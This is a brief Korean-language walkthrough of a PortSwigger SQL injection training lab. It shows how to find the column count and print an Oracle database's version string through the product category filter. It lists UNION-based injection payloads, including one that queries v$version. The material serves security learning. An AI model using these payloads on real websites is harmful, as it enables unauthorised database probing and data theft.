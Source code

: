 # [PortSwigger]SQL Injection 07

https://portswigger.net/web-security/all-labs

## LAB
SQL 주입 공격, Oracle에서 데이터베이스 유형 및 버전 쿼리

## Qusetion
이 연구소에는 제품 범주 필터에 SQL 삽입 취약점이 포함되어 있습니다. UNION 공격을 사용하여 주입된 쿼리에서 결과를 검색할 수 있습니다.

랩을 해결하려면 데이터베이스 버전 문자열을 표시하십시오

## Solution

ORACLE 데이터베이스 확인

![](../img/Study%20Img/%5BPortSwigger%5DSQL%20Injection%2007%20-%201.png)

<br>

제품 범주 필터에 Union SQL Injection 취약점 확인

![](../img/Study%20Img/%5BPortSwigger%5DSQL%20Injection%2006%20-%201.png)

<br>

category 파라미터에 취약점 확인
```
' union select null --
' union select null,null --
' union select null from dual --
' union select null,null from dual --
```

![](../img/Study%20Img/%5BPortSwigger%5DSQL%20Injection%2007%20-%202.png)

<br>

oracle 버전 정보 출력 구문 삽입
```
' union select null,banner from v$version --
```

![](../img/Study%20Img/%5BPortSwigger%5DSQL%20Injection%2007%20-%203.png)